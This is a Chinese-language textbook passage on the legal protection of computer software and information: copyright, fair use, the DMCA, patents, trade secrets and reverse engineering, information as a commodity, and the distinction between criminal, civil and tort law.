只有表达的创作者才有权获得版权；如果一个表达没有可确定的创作者，则不能授予版权。某些作品被认为属于**公共领域**，归公众所有，不属于任何特定个人。美国政府及许多其他政府的作品被视为属于公共领域，因此不受版权保护。众所周知的作品，例如短语“top o’ the mornin’ to ye”、歌曲“Happy Birthday to You”或金枪鱼面条焗烤的食谱，也因过于广为人知，以至于几乎不可能追溯其独创性并主张版权。最后，版权仅持续有限的时间，因此某些非常古老的作品，如莎士比亚的戏剧或狄更斯的小说，属于公共领域，其版权保护期已届满。^(1)

受版权保护的表达还必须固定在某种有形媒介上。故事或艺术作品必须被书写、印刷、绘制、录制（在塑料唱片等物理媒介上）、存储在磁性媒介（如磁盘或磁带）上，或以其他方式固定下来。此外，版权的目的是促进作品的传播；因此，作品必须被发行，即使复制件需要收费。

#### 作品的独创性

受版权保护的作品必须是作者原创的。如前所述，公共领域中的某些表达不受版权保护。即使作品包含一些公共领域素材，只要也包含一些独创性内容，就可以获得版权。作者甚至不必标明哪部分是公共领域的，哪部分是原创的。


例如，一位音乐史学家可以为一组民歌集申请版权，即使其中部分或全部歌曲属于公共领域。要受版权保护，该集合中或*关于*该集合的某些内容必须是原创的。史学家可能会主张：收集歌曲、挑选收录曲目并对其排序是原创部分。或者，如果史学家撰写了每首歌意义的分析，该分析将是原创的。在这种情况下，版权法不保护民歌本身（它们属于公共领域），而是保护该特定的选择、编排或描述。仅出售印有一首歌的纸张的人，不太可能被认定侵犯了史学家的版权。字典也可以用这种方式获得版权；作者不声称拥有这些单词，只声称拥有其在特定字典中的表达形式。

#### 材料的合理使用

版权法规定，受版权保护的客体受**合理使用**原则约束。购买者有权按照产品预期用途使用产品，且不得干扰作者的权利。具体而言，法律允许“合理使用受版权保护的作品，包括为批评、评论、新闻报道、教学（包括为课堂使用制作多份复制件）、学术研究或调查等目的，通过复制件复制……使用的目的和性质、作品的性质、所用部分占整个作品的比例和实质性程度，以及使用对作品潜在市场或价值的影响，均会影响对何为合理使用的判定。例如，合理使用允许为你合法获得的受版权保护的软件制作备份副本：你的备份副本可防止系统故障导致无法使用，但这不影响作者，因为你不需要也不想同时使用两个副本。版权法通常维护作者获得合理回报的权利，同时鼓励他人使用其深层思想。对受版权保护项目的不合理使用称为**盗版**。

1. 我们特意不说明版权保护期有多长，因为这因国家而异，且在美国，国会不断延长保护期。

***

**合理使用允许为学术研究和调查制作复制件。**

***

复印机的发明使合理使用更难执行。如今，许多商业复印店会复印书籍的一部分——有时是整整一章——或期刊中的单篇文章，但拒绝复印整卷书籍，理由是合理使用。使用复印机时，复印件的质量会随着复印次数增加而下降，如果你曾试图阅读一份论文的复印件的复印件的复印件，就深有体会。

数字技术在某些方面已超越复印机。数字媒体可以精确复制，质量无损耗：`PDF` 文件的复印件打印效果与原件完全一致，该复印件的复印件亦是如此。因此，以 `PDF`（或其他渲染格式）文件形式呈现的电子书可以无限次完美复制。理论上，出版社可能只卖出一本电子书，一位用户就能制作无限份副本分给朋友，而这些朋友又能为他们的朋友制作副本，以此类推。（本节中“可以复制”是指具备技术能力，不一定拥有法律或道德权利。）你可能已经见证了电子书、`CD` 及其他音乐格式、`DVD` 及其他电影媒体、平面艺术作品以及现在以数字形式查看的类似艺术作品所引发的巨大变革。侧边栏 11-1 揭示了涉及数字复制的另一个问题。出版商、作者、艺术家、观众、宣传人、场地所有者和政客们正拼命寻找一种方法，既允许数字访问，又保护创作者获利的权利。截至撰写本文时，各种复制保护方案勉强维持着现状，但跨设备兼容性几乎不存在。

***

##### 侧边栏 11-1 Napster：无复制权

Napster 是一个基于网络的音乐文件交换中心。要理解其存在为何成问题，我们必须先考察其前身——一家名为 `MP3` 的公司。`MP3.com` 是数字音乐文件的档案库。用户可以获取特定歌曲的 `MP3` 文件供个人欣赏。最终，某用户会将文件上传至 `MP3.com`，使其可供他人获取。2000 年 5 月，法院裁定 `MP3.com` 非法复制了 45,000 多张音频 `CD` 并非法分发受版权保护的作品。

为解决法律问题，音乐爱好者寻求一种与实际分发保持一步之遥的方法，试图在美国法律下勉强合法化。Napster 不再作为数字档案库，而是重新设计为个人之间的交换中心。用户可向 Napster 注册，证明其拥有某艺术家特定表演的数字版本。另一用户对该录音表达兴趣，Napster 便将两人连接起来。因此，Napster 从未实际接触文件本身。相反，Napster 运营点对点文件交换服务，正如 `eBay` 促成物品买卖却从未参与交易本身。

2001 年 2 月，美国第九巡回上诉法院裁定 Napster 侵犯了多位艺术家的版权。美国唱片业协会提起诉讼，代表数千名表演者。

这些案件的核心在于：购买 `CD` 时，购买者到底买到了什么。版权法认为，购买者买到的不是音乐本身，而是使用 `CD` 的权利。“使用” `CD` 意味着播放它、借给朋友、送给粉丝，甚至转售它，但不包括复制它与他人分享。原创艺术家有权控制其复制品的分发，这一原则称为首次销售原则。

***

###### 合理使用的延伸：个人使用原则

合理使用的延伸是个人使用原则。例如，你可能有一本地图集，并复制其中一张地图随身携带旅行，旅行结束后丢弃该复印件。你并未剥夺作者的销售机会：你已拥有一份副本，不会仅为这次旅行再购买第二份。因此，该复印件仅是为了方便。同样，你也可以合理地为数字对象制作备份副本，以防计算机故障或媒体播放器丢失导致数据丢失。

版权法还包含**首次销售**概念：购买受版权保护的物品后，新所有者可以赠送或转售该物品。也就是说，版权所有者有权控制该物品的首次销售。这一概念在图书领域运作良好：作者在书店售书时获得报酬，但如果图书后来在二手书店转售，作者不会获得额外收益。（注意，当作品增值时，艺术家无法直接获益。如果安迪·沃霍尔以 100 美元售出其著名的汤罐头图像副本，而如今其价值涨至数千倍，沃霍尔无法分得增值收益。）

***

**作者或艺术家从物品的首次销售中获利。**

***

#### 版权注册要求

版权易于获得，且获取版权过程中的错误可以纠正。注册的第一步是通知。任何潜在使用者必须知晓该作品受版权保护。每份副本必须标注版权符号 `©`、单词 `Copyright`、年份及作者姓名。（曾有一段时间，这些项后需跟随 `All rights reserved` 以在某些南美国家保留版权。如今添加该短语虽非必要但也无害。）

元素的顺序可以调整，`©` 或 `Copyright` 可二选一省略（但不可同时省略）。每份分发的副本均须如此标注，尽管法律会宽恕因合理尝试召回并标注未加标记副本而导致的标注遗漏。

版权还须正式备案。在美国，需填写表格并连同象征性费用及作品副本提交版权局。实际上，版权局仅要求提供作品的前 25 页和后 25 页，以便在法庭案件中支持权利主张。备案必须在作品首次分发后三个月内完成。法律允许最晚延迟五年备案，但在备案前发生的侵权行为不得起诉。

#### 版权侵权

版权持有者必须通过法庭证明他人侵犯了其版权。侵权必须是实质性的，且必须是复制行为，而非独立创作。理论上，两人可能独立创作出完全相同的歌曲，互不知情。这两人**均**有权获得其作品的版权保护。任何一方均未侵犯对方权利，双方均有权付费分发其作品。同样，版权在虚构文字作品中最易理解，因为两人用相同或高度相似的措辞表达同一想法的可能性极低。

非虚构作品的独立性则不那么清晰。例如算术教科书，长除法的解释方式有限，因此两本独立编写的书在该解释上可能使用相似措辞。可选的简单示例数量有限，两位作者可能独立选择编写相同的简单示例。然而，两位教科书作者从头到尾拥有相同的呈现模式和所有示例的可能性极小。

#### 计算机软件版权

最初的版权法旨在保护书籍、歌曲、照片等事物。人们较易察觉这些物品被复制。公共领域与创作的界限相当清晰。思想（情感、情绪）与其表达的区别也很明显。非虚构作品因其性质，独立表达的空间较小。受编程语言约束、速度与空间效率要求影响，计算机程序的表达空间更小。

计算机程序能否受版权保护？可以。1976 年版权法于 1980 年修订，明确纳入了计算机软件的定义。然而，版权保护未必是计算机作品的理想保护形式。为理解原因，请考虑程序中使用的算法。算法是思想，编程语言语句是思想的表达。因此，保护对象为程序语句本身，而非算法概念：禁止原封不动复制代码，但允许重新实现算法。请记住，版权的目的之一是促进思想传播。计算机程序中体现的算法（即思想）应当共享。

***

**受版权保护作品中体现的思想必须公开。**

***

版权保护计算机作品的第二个问题是要求作品必须发表。程序可通过分发目标代码副本（如磁盘）来发表。然而，若未分发源代码，则源代码未被视为发表。如果源代码从未发表，所谓的侵权者便不构成对源代码版权的侵犯。

#### 数字对象版权

1998 年的**数字千年版权法案**（**DMCA**）澄清了数字对象（如音乐文件、图形图像、数据库数据及计算机程序）的部分问题，但也留下了一些模糊地带。

DMCA 的条款包括：

- 数字对象**可以**受版权保护。
- 规避或禁用内置于对象中的反盗版功能属于犯罪。
- 制造、销售或分发禁用反盗版功能或复制数字对象的设备属于犯罪。
- 然而，这些设备可用于（并可制造、销售、分发）研究和教育目的。
- 为防硬件或软件故障而制作数字对象的备份副本，或为归档而存储副本，均属允许。
- 图书馆可制作最多三份数字对象副本供馆际互借。

因此，用户在正常使用过程中制作合理副本，及为防系统故障制作副本，均不侵权。若系统定期备份，导致数字对象（如软件程序）被复制到多个备份中，这不构成版权侵犯。

不确定性在于如何判定何为反盗版设备。反汇编器或反编译器可能助长盗版，也可用于研究和改进程序。有人反编译可执行程序，研究其推断方法，再修改、编译并销售结果，即属滥用反编译器。但这种区别难以强制执行，部分原因在于使用取决于意图和语境。这就像法律规定卖刀切菜合法、伤人非法。刀不知用途；使用者决定意图和语境。

考虑一下你购买的一张音乐 `CD`，购买的显而易见的理由是：反复聆听。你想在 `MP3` 播放器上听这些音乐，这是合理的合理使用。但该 `CD` 受到复制保护，因此你无法将音乐下载到计算机上以传输到 `MP3` 播放器。你被禁止进行合理的合理使用。此外，如果你试图做任何规避反盗版保护的事情，你就违反了反盗版条款；你也无法购买一种工具或程序来让你将自己的音乐下载到自己的 `MP3` 播放器上，因为这种工具将违反该条款。

对《数字千年版权法》的反应并非一致好评。（例如，参见 `[MAN98 和 EFF06]`。）有人认为它限制了计算机安全研究。更糟糕的是，其他人指出，它可被用来阻止思想的自由交流，而这正是版权旨在促进的。2001 年，普林斯顿大学教授爱德华·费尔滕和学生们提交了一篇关于用于保护数字音乐文件免遭复制的数字水印技术的密码分析论文。他们在前一个 4 月受到压力而未进行展示，因为音乐行业团体威胁要根据 `DMCA` 采取法律行动。

一个新兴的原则是，软件像音乐一样，其获取方式更像是租赁而非购买。你购买的不是一件软件，而是使用它的权利。1997 年美国《无电子盗窃法》（`NET Act`）阐明了这一立场，将复制或分发受版权保护的作品（如软件或数字录音）定为刑事犯罪，即使不收取费用也是如此。

***

##### 侧边栏 11-2 对版权法的不当引用

有时供应商会不当引用版权法，以阻止客户退回软件包。Kaner 和 Pels `[KAN98]` 解释说，一些公司不想被退货事宜打扰，特别是当其售出的软件包被证明有缺陷时。公司可能会发布一项政策，张贴在商店墙上、橱窗或网站上，声称因为退货会违反版权法，所以不能接受退货。但实际上该法对退货只字未提。它仅限制软件租赁。`Central Point Software, Inc.` 与 `Global Software and Accessories, Inc.` 之间的诉讼案例分析（1995 年解决）指出，给予退款并不将销售变为租赁。

***

将版权保护应用于计算机作品的领域仍在不断发展，且受法院大量解释的约束。因此，计算机作品的哪些方面受版权保护尚不确定。法院已裁定计算机菜单设计可以受版权保护，但“外观和感觉”（如 `Microsoft Windows` 用户界面）则不能。但菜单设计难道不是外观和感觉的一部分吗？

虽然版权保护可应用于计算机作品，但版权概念产生于电子时代之前，因此保护力度可能不如我们期望的那样。版权并未涵盖所有需要保护的关键计算系统要素。例如，程序员可能想保护一种算法，而不是该算法在特定编程语言中的表达方式。不幸的是，至少按目前版权法的解释，很难为算法获得版权保护。由于版权法在不断演变，当版权被用作借口时，我们也必须小心，正如我们在侧边栏 11-2 中所见。

#### 专利

**专利**与版权不同，它们保护发明、有形物体或制造它们的方法，而非智力成果。专利与版权的区别在于，专利旨在适用于科学、技术和工程的成果，而版权旨在涵盖艺术、文学和书面学术领域的作品。专利可以保护“新且有用的工艺、机器、制品或物质组成”。美国法律排除“新发现的自然定律……[和] 思维过程”。因此，“2+2=4”不是专利的合适主题，因为它是自然定律。同样，该表达属于公共领域，因此也不适合申请版权。最后，你可以争辩说数学纯粹是精神层面的，只是观念。没人见过或摸过“二”，见过两匹马，但没见过“二”本身。专利旨在保护*实施*想法的装置或工艺，而非想法本身。

***

**专利保护发明、有形物体，而非其设计或想法。**

***

##### 新颖性要求

如果两位作曲家碰巧在不同时间独立创作出同一首歌，版权法允许他们都拥有版权。如果两位发明家设计出同一项发明，专利授予最先发明的人，无论谁先申请专利。专利仅对真正新颖或独特的事物有效，因此一项发明只能有一项专利。

受专利保护的物体还必须是非显而易见的。如果一项发明对该领域的普通技术人员来说显而易见，则不能获得专利。法律规定，如果“拟申请专利的主题与现有技术之间的差异，使得该主题整体在发明当时对该主题所属技术领域的普通技术人员来说显而易见”，则“不能”获得专利。例如，一张用作书签的纸板不太可能成为专利候选，因为纸板的想法对几乎任何读者来说都是显而易见的。

##### 专利注册程序

申请人通过提交简短表格、在创意作品上标注版权声明并发布作品来注册版权。整个过程不到一小时。

要获得专利，发明人必须说服美国专利商标局该发明值得授予专利。专利律师会收取费用，研究已授予的类似发明专利。此搜索有两个作用。首先，它确定拟申请专利的发明尚未被授予专利（推测也未被先前发明）。其次，搜索有助于识别已获专利的类似事物。这些相似之处在描述使发明值得专利保护的独特特征时很有用。专利局将申请与所有其他类似已授权专利发明进行比较，并决定申请是否涵盖真正新颖且非显而易见的内容。如果局方认定发明新颖，则授予专利。

通常，发明人撰写专利申请时会列出许多独创性权利要求，从非常宽泛到非常具体。专利局可能驳回部分较宽泛的权利要求，而支持部分较具体的权利要求。专利对所有被支持的权利要求有效。专利申请人以足够详细的程度披露发明的新颖之处，以便专利局和法院判断新颖性；这种详细程度也可能向世界揭示发明的工作原理，从而带来侵权的可能性。

专利权人通过生产产品或许可他人生产来使用专利发明。受专利保护的物体有时会标注专利号，以警告他人该技术受专利保护。专利权人希望此警告能防止他人侵权。

##### 专利侵权

###### 专利保护

专利持有人*必须*反对所有侵权行为。对于版权，持有人可以选择起诉哪些案件，忽略小的侵权行为，等待严重的侵权行为——即侵权程度足以确保法庭胜诉或证明法庭成本合理的情况。然而，未能起诉专利侵权——即使是小的侵权或专利持有人不知情的侵权——可能意味着完全丧失专利权。但是，与版权侵权不同，专利持有人不必证明侵权者复制了发明；即使有人在不知晓专利发明的情况下独立发明了相同的事物，也构成专利侵权。

***

**专利持有人必须对所有侵权者采取行动。**

***

每一起侵权都必须处理。专利所有人可以先发一封信，要求侵权者停止使用（销售）专利产品。如果被指控者不停止，原告必须起诉。起诉费用昂贵且耗时，但更糟的是，起诉专利侵权可能导致专利*持有人*失去专利。被指控侵权者可以提出以下所有观点作为抗辩：

*   **这不构成侵权**。被指控侵权者将声称两项发明有足够差异，因此不存在侵权。
*   **专利无效**。如果之前的侵权未被反对，专利权可能不再有效。
*   **发明缺乏新颖性**。在这种情况下，被指控侵权者将试图说服法官专利局授予专利的行为不当，且该发明不具备专利价值。
*   **侵权者最先发明了该物品**。如果属实，被指控侵权者而非原专利持有人有权获得该专利。

第一种抗辩不会损害专利，尽管它可能限制发明的新颖性。然而，其他三种抗辩可能摧毁专利权。更糟的是，每当专利持有人起诉他人侵权时，这四种抗辩都可以被使用。最后，获得和维护专利可能产生巨额法律费用。专利保护最适合拥有大量研发人员，甚至更多法务人员的大公司。

###### 专利对计算机对象的适用性

专利局长期以来不鼓励计算机软件专利。长期以来，计算机程序被视为算法的表现形式，而算法是自然事实，不受专利保护。早期的软件专利案例 `Gottschalk v. Benson` 涉及一项将十进制数转换为二进制的工艺专利申请。最高法院驳回了该申请，称其似乎试图为一个抽象概念申请专利，简而言之，即算法。但底层算法正是大多数软件开发者希望保护的内容。

***

**软件可以申请专利，法院越来越多地承认新颖技术（即算法）的可专利性。**

***

1981 年，两起案件（ `Diamond v. Bradley` 和 `Diamond v. Diehr` ）为一种利用计算机软件、知名算法、温度传感器和计算机来计算橡胶密封件硫化时间的工艺赢得了专利。法院支持专利权，因为该申请不是针对软件或算法本身，而是针对恰好将软件作为其步骤之一的工艺。一个不幸的推论是，如果不使用该工艺的其他专利步骤而仅使用软件，将不构成侵权。

自 1981 年以来，专利法已扩展至包含计算机软件，承认算法像工艺和公式一样属于发明。专利局自这些案件以来已颁发了数千项软件专利。但由于获得和维护专利涉及的时间和费用，这种保护形式可能不适合小规模软件编写者。

#### 商业秘密

商业秘密不同于专利或版权，因为它*必须*保持*秘密*。信息仅作为秘密才有价值，侵权者是泄露秘密的人。一旦泄露，信息通常无法再变回秘密。

***

**商业秘密是对企业主有价值的秘密。**

***

##### 商业秘密的特征

**商业秘密**是指使一家公司在竞争中相对于其他公司具有优势的信息。例如，软饮料的配方是商业秘密，客户邮寄名单或几个月后即将发布的产品信息也是商业秘密。

商业秘密的显著特征是它必须始终保密。知晓秘密的员工和外部人员必须被要求不泄露秘密。所有者必须采取预防措施保护秘密，例如将其存放在保险柜中、在计算机文件中加密、或要求员工签署不泄露秘密的声明。

如果有人不正当地获取商业秘密并从中获利，所有者可以追回利润、赔偿损失、弥补收入损失和法律费用。法院将尽一切努力使持有人恢复到信息保密时的竞争地位，并可能判给赔偿金以补偿销售损失。然而，在独立发现的情况下，商业秘密保护将失效。如果其他人碰巧独立发现了该秘密，则不构成侵权，商业秘密权利也随之消失。

###### 逆向工程


# 商业秘密保护失效的另一种方式是逆向工程

假设秘密是将纸巾装入纸板盒的方式，使得抽出一张时另一张弹出。任何人都可以剪开盒子研究该工艺。因此，该商业秘密很容易被发现。在**逆向工程**中，通过研究成品来确定其制造方式或工作原理。

通过逆向工程，有人可能会发现电话是如何制造的；电话的设计从其组件及其连接方式中显而易见。因此，专利是保护电话等发明的适当方式。然而，软饮料不仅仅是其成分的组合。制作软饮料可能涉及时间、温度、氧气或其他气体的存在等因素，这些无法通过对产品的直接化学分解得知。软饮料的配方是严格保密的商业秘密。当秘密在产品中不明显时，商业秘密保护效果最好。

## 对计算机对象的适用性

商业秘密保护非常适用于计算机软件。计算机程序的底层算法是新颖的，但其新颖性取决于无人知晓。商业秘密保护允许分发秘密的*结果*（可执行程序），同时仍隐藏程序设计。商业秘密保护不涵盖复制产品（特别是计算机程序），因此无法防止盗版者未经许可销售他人程序副本。然而，商业秘密保护使窃取秘密算法并在另一产品中使用成为非法。

计算机程序的困难在于逆向工程有效。反编译器和反汇编程序可以生成可执行程序的源代码版本。当然，此源代码不包含描述性的变量名或解释代码的注释，但它是他人可以研究、重用或扩展的准确版本。

## 执行的困难

当有人通过研究程序输出推断程序设计，或者更糟，通过解码目标代码推断设计时，商业秘密保护无济于事。这两种都是合法（即合法）活动，且都会导致商业秘密保护消失。

### 商业秘密的保密性必须通过充分的保障措施来确保

如果源代码分发随意，或者所有者未能让相关人员（如员工）认识到保守秘密的重要性，那么任何侵权起诉都将处于弱势。雇佣合同通常包含一条条款，规定员工不得泄露从公司获得的任何商业秘密，即使在离职后也是如此。可能还需要额外的保护措施，例如标记敏感文档的副本或控制对包含秘密信息的计算机文件的访问权限，以让人们认识到保密的重要性。

在表 11-1 中，我们对这三种保护方式进行了比较。


**表 11-1** 版权、专利和商业秘密的比较

## 特殊情况

在本节中，我们将探讨一些需要某种形式法律保护的计算机对象的特殊情况。

### 计算机源代码或目标代码

源代码大概是最需要通过法律保护来确保安全的东西，但其保护情况也是最模糊的。只要开发者能提出令人信服的论据证明底层算法具有新颖性，源代码就可以受专利保护。因此，简单的排序过程不具备新颖性，因为该技术已是众所周知。计算机源代码或目标代码也可以作为知识产权受版权保护。然而，这种保护仅适用于代码的复制，而不适用于概念的变体。在文本作品中，复制并转售整篇文章侵犯版权，逐字提取少量内容属于合理使用，而改述观点则完全可以接受。将这些概念延伸到计算机代码，会得出这样的结论：转售一份软件副本属于侵权，但重写一段代码，即重新实现同一算法，则在版权法允许的范围内。这种结论无法为软件提供令人满意的保护。

### Web 内容

网页内容属于媒体，与书籍或照片非常相似，因此最适合的保护方式是版权。这种版权也将保护你编写的用于实现网页动画或以其他方式影响网页显示的软件。而且，理论上讲，如果你的网页包含恶意代码，你的版权也涵盖该部分。正如我们之前讨论的，受版权保护的作品不必完全是新创作的；它可以是你声称拥有版权的新作品与你不拥有版权的旧素材的混合体。你可以购买或经许可使用一幅网页艺术图、一个控件（如显示旋转地球的小程序）或一段音乐。版权保护你的原创作品。

### 域名和 URL

域名、URL、公司名称、产品名称和商业标识受**商标**保护，这赋予了注册所有人对这些识别性标记的专有使用权。

# 11.2 信息与法律

源代码、目标代码，甚至计算机屏幕的“外观和感觉”，都是可识别的，即使不是有形的对象。法律处理这些事物的方式相当合理，尽管有些滞后。但计算正处于向一类新对象过渡的过程中，这带来了新的法律保护需求。电子商务、电子出版、电子投票、电子银行——这些都是对法律体系的新挑战。在本节中，我们将探讨其中一些新的安全需求。

## 信息作为一种对象

店主过去在店里存放“物品”，如纽扣、汽车和磅装糖。购买者是顾客。当一件物品卖给顾客时，店主该物品的库存减少一件，顾客付款并带着物品离开。有时顾客可以将物品转卖给他人，价格可能高于或低于原购买价。

其他类型的店铺提供可被视为“物品”的服务，例如理发、根管治疗或庭审辩护。某些服务有固定价格（如理发），尽管不同提供者的收费可能不同。“店主”（发型师、牙医、律师）本质上出售的是时间。例如，理发价格通常与发型师的时间成本相关，而律师和会计师则按小时收取那些没有明显标准化项目的服务费用。在自由经济中，服务的价值以某种方式与其对买方和卖方的吸引力相关。例如，牙医愿意出售一定量的时间，留出其余时间用于其他活动。像店主一样，服务提供者出售的时间或服务无法再次出售给他人。

但今天我们必须考虑第三类待售对象：信息。毫无疑问，信息具有价值。学生可能被诱导花钱购买考试答案，企业则为信用报告、客户名单和营销建议付费。但信息不符合我们多年来所处理的熟悉商业范式。让我们探讨一下信息为何不同于其他商业物品。

### 信息不可耗尽

与有形物品和服务不同，信息可以反复出售，而不会耗尽库存或降低质量。例如，征信机构可以将同一个人的信用报告卖给无限数量的请求客户。每个客户都为报告中的信息付费。报告可能通过纸张等有形媒介交付，但具有价值的是*信息*，而非媒介。

> **信息的价值与承载它的媒介无关。**

这一特性将信息与书籍、CD 或艺术复制品等其他有形作品区分开来。每个有形作品都是单个副本，可以单独编号或核算。如果库存耗尽，书店随时可以订购更多同一本书，但它只能卖出库存数量的副本。

### 信息可被复制

信息的价值取决于买方愿向卖方支付的价格。但在购买信息后，买方可以转身成为卖方，从而可能剥夺原卖方的进一步销售机会。因为信息不可耗尽，买方可以享用或使用该信息，也可以将其多次转售，甚至可能获利。

### 信息具有极低的边际成本

一件商品的**边际成本**是指在已生产若干件之后，再生产一件的成本。如果一份报纸某天只卖出一份，那这一份的价格将高得离谱，因为它必须承担当天所有作家、编辑和制作人员的工资福利，以及生产设备成本的分摊。这些是生产第一份副本所需的固定成本。按照这个模式，第二份及后续副本的成本微乎其微，基本上只代表印刷它们的纸张和油墨成本。幸运的是，报纸印量巨大且日销量大，因此固定成本均摊到大量印刷品上。更重要的是，出版商对预期销量有合理预估，因此会调整预算以在预期销量下获利，超额销售只会增加利润。此外，出版商按月、季或年编制预算，因此单期报纸的价格不会因昨天售出的份数而波动。

理论上，报纸购买者可以印刷并出售该报纸的其他副本，尽管这将违反版权法。很少有购买者这样做，主要有四个原因。

- 报纸受版权法保护。
- 复制成本过高，普通人无法通过此获利。
- 以这种方式复制报纸是不公平的。
- 复制品的质量通常会在复制过程中降低。

除非复制品真正等同于原件，否则许多人更愿意从报刊亭购买正版刊物，因为正版具有清晰的字体、高质量的照片、准确的色彩等。

信息的成本同样取决于固定成本加上复制成本。通常固定成本很大，而复制成本极小，甚至比报纸还低，因为不需要纸张和油墨等原材料成本。然而，与报纸不同，信息更容易被买家转售。数字信息的副本可以是完美的，与原件无法区分，副本的副本的副本的副本也是如此。

***

**信息的边际成本通常微乎其微。**

***

### 信息的价值通常随时间而变化

如果你确定知道下周微软股票的交易价格，该信息将极其宝贵，因为你可以在股市上获得巨额利润。当然，今天无法知道该价格。但假设你知道微软下周肯定会宣布某事，导致股价上涨或下跌。该信息几乎与知道确切价格一样有价值，且可提前获知。然而，知道*昨天*的微软股价，或知道*昨天*微软发布了导致股价暴跌的消息，几乎毫无价值，因为这些已刊登在所有主要财经报纸上。因此，信息的价值可能取决于你何时获知它。

### 信息通常以无形方式传输

报纸是一种印刷实体。报贩将其交给顾客，顾客拿着它离开。买卖双方都意识到并确认已发生交易。此外，严重损坏的报纸显而易见；如果中间出现严重印刷缺陷，很容易指出。

例如，假设一个邪恶的间谍秘密获取了某一天所有的《纽约时报》副本，并将一篇对该间谍祖国不利的头条新闻替换为一篇大加赞扬的报道。当我们想到纸质报纸时，重印并替换第 1 页及可能的其他续页的难度是望而却步的。

但时代在变。越来越多的信息作为比特流通过网络传递，而非印刷在纸上。如果比特流明显有缺陷（即错误检测码指示传输错误），证明该缺陷很容易。然而，如果信息副本准确但底层信息不正确、无用或不符合预期，就很难证明信息有缺陷。因此，《纽约时报》的数字版订阅者可能永远不会注意到间谍大幅篡改了某一期、甚至一个月或一年份期刊的内容。我们当然可以访问众多新闻来源，因此可能察觉《纽约时报》的报道是否与其他媒体不符。但有些信息仅来自单一源头，或者用户不比较不同来源的内容。金融机构只向一个信用局查询潜在借款人的信用报告。律师事务所只去一个来源搜索判例先例。来自单一源头的错误信息可能长期不被发现。

#### 与信息相关的法律问题

这些信息特性显著影响其法律待遇。若要理解信息如何与版权、专利和商业秘密法相关联，必须理解这些属性。首先我们可以注意到，信息有一定的有限法律保护基础。例如，信息可关联商业秘密，因为信息是信息销售者的看家本领。在销售者掌握信息期间，商业秘密保护自然适用于销售者从信息中合法获利的能力。因此，法院承认信息具有价值。

然而，如前所示，商业秘密只有在保持秘密时才有价值。例如，可口可乐公司在出售其配方后，不能指望继续获得商业秘密保护。此外，如果他人能推导或推断出该秘密，商业秘密也就不安全了。

版权和专利提供其他形式的保护。如前所述，这些保护均不完美适用于计算机硬件或软件，对信息的适用性甚至更低。法律体系变革缓慢，有助于确保发生的变革公平且经过深思熟虑。法律体系这种刻意的缓慢变革步伐，即将遭遇信息技术行业超音速般的变革速度。法律无法且不能控制所有网络威胁。让我们看几个例子，说明信息需求即将对法律体系提出重大要求。

##### 信息商业

信息不同于大多数其他交易商品，尽管它有价值且是某些商业形式的基础。信息市场仍处于起步阶段，法律界迄今遇到的问题很少。尽管如此，仍有几个关键问题必须解决。

例如，我们看到软件盗版涉及在未向应得者支付足够报酬的情况下复制信息。为确保软件开发商或发行商获得公正补偿，已尝试过多种方法：复制保护、免费软件和受控分发。最近，软件作为移动代码或小程序按需电子化交付。小程序方法赋予作者和分发商更多控制权。每个小程序潜在可被追踪和收费，且每个小程序可在使用后自我销毁，不留任何东西免费传给他人。但该方案需要大量核算和追踪，增加了本可能定价合理的成本。因此，目前的方法似乎都不理想，往往需要法律补救，而非或除技术手段外。

##### 电子出版

许多报纸和杂志在互联网上发布其内容版本，通讯社和电视新闻机构也是如此。例如，英国广播公司（BBC）和路透社拥有显著的网络存在。我们应预期某些新闻和信息最终将仅在互联网上发布和分发。确实，《大英百科全书》和《哥伦比亚百科全书》现在主要是基于网络的服务，而非过去占据大量书籍卷册的形式。发行商在此再次面临确保获得公平报酬的问题。基于密码学的技术解决方案正在开发中以解决此问题。然而，这些技术方案必须有法律结构支持以强制执行。（此类技术方案的另一障碍是它们必须易于使用。）

##### 保护数据库中的数据

数据库是一种特定形式的软件，给法律解释带来重大问题。法院难以裁定哪些保护法适用于数据库。如何确定一组数据来自特定数据库（以便数据库所有者主张补偿）？如果数据是公共数据（如姓名和地址），数据库中的数据究竟归谁所有？

## 电子商务

### 与货物贸易相关的法律实际上已历经几个世纪的演变

当货物为有形且通过商店、目录等传统渠道购买时，现有的法律保护足以涵盖瑕疵商品、欺诈性付款和未交货等情况。然而，当货物以电子方式交易时，情况就变得不那么清晰了。

如果您电子化订购货物，数字签名和其他加密协议可以为您的“资金”提供技术保护。但是，假设您订购的信息不适合使用、从未送达、送达时已损坏，或送达太晚而无法使用。您如何证明交付条件？对于目录销售，您通常拥有收据或某种形式的纸质确认单，记录着时间、日期和地点。但对于数字销售，此类验证可能不存在，或极易被篡改。随着我们步入电子商务时代，这些法律问题必须得到解决。

### 法律体系

显然，现行法律在保护信息本身以及基于电子形式的商业活动方面并不完善。那么，信息该如何受到法律保护？如前所述，版权、专利和商业秘密涵盖了部分但非所有与信息相关的问题。尽管如此，法律体系并不允许信息自由流通；某些机制仍然有用。

#### 刑法与民法

**成文法** 是明确规定特定行为为非法的法律。成文法是立法过程的结果，由管理机构宣布新法律将在指定时间后生效。例如，议会可能会讨论与互联网交易征税相关的问题，并通过法律规定何时必须缴纳相关税款。

违反成文法通常会导致**刑事**审判，在审判中，政府主张进行惩罚，因为非法行为损害了社会的期望秩序。例如，政府会起诉谋杀案，因为谋杀违反了政府通过的法律。在美国，某些刑事犯罪的惩罚可能非常严厉，法律要求法官或陪审团认定被告有罪超出合理怀疑。因此，证据必须有力且令人信服。刑事案件的目标是惩罚罪犯，通常通过剥夺其某些权利的方式（如将罪犯入狱或处以罚款）。

> **刑法涉及危害社会的错误行为。**

**民法** 是另一种类型的法律，不要求如此高标准的有罪证明。在**民事**案件中，个人、组织、公司或团体声称其受到了损害。民事案件的目标是恢复原状：通过弥补损害使受害者“恢复原状”。例如，假设弗雷德杀害了约翰。因为弗雷德违反了禁止谋杀的法律，政府将在刑事法庭起诉弗雷德，罪名是违法并扰乱社会秩序。幸存的妻子阿比盖尔可能会作为证人出席刑事审判，但前提是她能提供确凿弗雷德有罪的证据。但她也可能在民事法庭起诉他，罪名是过失致死，寻求赔偿以抚养幸存的孩子。

> **民法涉及对个人或公司的损害。**

#### 侵权法

特定的法律术语描述了民事案件中处理的错误行为。该术语反映了案件是基于违反法律，还是基于随时间演变而来的行为先例。换句话说，法官有时会根据什么是合理的、以往的做法来做出裁决，而非依据立法条文。**侵权** 是指非因违反成文法或违约造成的损害，而是因违背累积的判例法主体而产生的损害。因此，成文法由立法者制定并由法院解释；侵权法虽非成文，但通过成为后续案件先例的法院判决不断演变。

